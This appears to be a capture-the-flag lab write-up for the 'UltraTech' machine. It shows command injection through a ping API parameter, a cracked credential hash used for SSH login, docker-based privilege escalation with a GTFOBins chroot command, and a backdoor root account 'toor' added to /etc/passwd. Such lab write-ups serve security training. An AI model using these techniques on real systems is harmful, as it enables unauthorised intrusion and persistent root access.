 # UltraTech (Medium)

- The basics of Penetration Testing, Enumeration, Privilege Escalation and WebApp testing

                                                           **~_. UltraTech ._~**

*This room is inspired from real-life vulnerabilities and misconfigurations I encountered during security assessments.*

*If you get stuck at some point, take some time to keep enumerating.*

              **[ Your Mission ]**

You have been contracted by UltraTech to pentest their infrastructure.

It is a grey-box kind of assessment, the only information you have is the company's name and their server's IP address.


-------------------------------------------------------------------------------------------------------------------------
- We skip some basic steps enumurate and focus into the step research and exploit the machine.
- After scan all ports and enumurate directories, we have the port :31331 and port :8081 that we can use both.
- Let’s research all directories in port 31331 —> we have the /partners.html is the login page
- Port 8081 is the API of website UltraTech. They have two directories are /ping and /auth .
- /auth is the page link with the page login /partners.html so when we login the credentials, the page will transfer to → /auth to show the message “Invalid or login success”.
- We have the hint to find the database lying around so we need to find it to login the page.
- Now we can use to Burpsuite to intercept something.

![Untitled](https://github.com/user-attachments/assets/bbac3d55-c9ce-492d-8c67-a1b10e3eb5fa)

- We can see when we open the page, the API will be automatic run with the Request query ping IP. We see the Response with ping successfully.

![Untitled 1](https://github.com/user-attachments/assets/d1cdbe14-3653-4045-bee0-d60a8354096f)

—> We have known the ping is always successful so we can manipulate the query ping IP to Inject command into query. Now we will `FUZZ` the inject command by Intruder.

![Untitled 2](https://github.com/user-attachments/assets/577f3e20-8156-4e03-900d-ffc3c8f78669)

- After researching the APIs, we know that we can inject command like ls, whoami, … with the command URL encoded.
- First we add $$ and command ls into the query.

- Secondly, we will load Payloads we will FUZZ. In here we will use the payload in `/usr/share/wordlists/wfuzz/Injections/All_attack.txt`  and Start attack.

![Untitled 3](https://github.com/user-attachments/assets/16c27c97-2229-4d2d-858c-a665d331ef0b)

- Waiting and check the Fuzz we will see the Payload “%0a” —> This is the newline URL encoded that is successful.
- 
![Untitled 4](https://github.com/user-attachments/assets/ba50d4d4-1ca9-4324-8773-09d3299a0e29)

—> We have the database we need: utech.db.sqlite.

- Cat it to see information:

![Untitled 5](https://github.com/user-attachments/assets/5b21cf8e-2870-4404-874a-86075723b214)

—> We have the credentials r00t:f357a0c52799563c7c7b76c1e7543a32 (password hashed) —> Dehash password —> r00t:n100906

- We use the credential we found to login SSH:

![Untitled 6](https://github.com/user-attachments/assets/199f8765-cd97-4b1e-983a-e7fe8aab62a2)

- We will privilege Root to get the SSH key private.
- And we use the tool `Linpeas.sh` scan the machine to find the vector priv and we have found the vector *docker .*
- First we try it with Docker shell in *GTFOBin:*

```bash
docker run -v /:/mnt --rm -it alpine chroot /mnt sh
Unable to find image 'alpine:latest' locally
docker: Error response from daemon: Get https://registry-1.docker.io/v2/: net/http: request canceled while waiting for connection (Client.Timeout exceeded while awaiting headers).
See 'docker run --help'.
```

—> It is not worked !!!

- We check the image of Docker:

```bash
r00t@ultratech-prod:~$ docker images
REPOSITORY          TAG                 IMAGE ID            CREATED             SIZE
bash                latest              495d6437fc1e        5 years ago         15.8MB
```

—> We have one the docker image is “Bash” so we research to find other way with Docker.

- So We found it !!!

![Untitled 7](https://github.com/user-attachments/assets/c45b384b-967d-4047-a9bd-76dd2d95ddf3)

- We will  mount bash to create the new account in backdoor.
- Note: We need to cd /  firstly and after that we will mount bash.

![Untitled 8](https://github.com/user-attachments/assets/1e8a7172-1316-4d9d-8ba7-81605b25ba23)

```bash
r00t@ultratech-prod:/$ cat /etc/passwd
root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
sys:x:3:3:sys:/dev:/usr/sbin/nologin
sync:x:4:65534:sync:/bin:/bin/sync
games:x:5:60:games:/usr/games:/usr/sbin/nologin
man:x:6:12:man:/var/cache/man:/usr/sbin/nologin
lp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin
mail:x:8:8:mail:/var/mail:/usr/sbin/nologin
news:x:9:9:news:/var/spool/news:/usr/sbin/nologin
uucp:x:10:10:uucp:/var/spool/uucp:/usr/sbin/nologin
proxy:x:13:13:proxy:/bin:/usr/sbin/nologin
www-data:x:33:33:www-data:/var/www:/usr/sbin/nologin
backup:x:34:34:backup:/var/backups:/usr/sbin/nologin
list:x:38:38:Mailing List Manager:/var/list:/usr/sbin/nologin
irc:x:39:39:ircd:/var/run/ircd:/usr/sbin/nologin
gnats:x:41:41:Gnats Bug-Reporting System (admin):/var/lib/gnats:/usr/sbin/nologin
nobody:x:65534:65534:nobody:/nonexistent:/usr/sbin/nologin
systemd-network:x:100:102:systemd Network Management,,,:/run/systemd/netif:/usr/sbin/nologin
systemd-resolve:x:101:103:systemd Resolver,,,:/run/systemd/resolve:/usr/sbin/nologin
syslog:x:102:106::/home/syslog:/usr/sbin/nologin
messagebus:x:103:107::/nonexistent:/usr/sbin/nologin
_apt:x:104:65534::/nonexistent:/usr/sbin/nologin
lxd:x:105:65534::/var/lib/lxd/:/bin/false
uuidd:x:106:110::/run/uuidd:/usr/sbin/nologin
dnsmasq:x:107:65534:dnsmasq,,,:/var/lib/misc:/usr/sbin/nologin
landscape:x:108:112::/var/lib/landscape:/usr/sbin/nologin
pollinate:x:109:1::/var/cache/pollinate:/bin/false
sshd:x:110:65534::/run/sshd:/usr/sbin/nologin
lp1:x:1000:1000:lp1:/home/lp1:/bin/bash
mysql:x:111:113:MySQL Server,,,:/nonexistent:/bin/false
ftp:x:112:115:ftp daemon,,,:/srv/ftp:/usr/sbin/nologin
r00t:x:1001:1001::/home/r00t:/bin/bash
www:x:1002:1002::/home/www:/bin/sh
toor:$1$.ZcF5ts0$i4k6rQYzeegUkacRCvfxC0:0:0:root:/root:/bin/sh
```

—> Successful !!! and now `su toor` and get the private SSH key.

![Untitled 9](https://github.com/user-attachments/assets/f202a489-995a-46e7-b549-63c3d40dccba)

END!!!
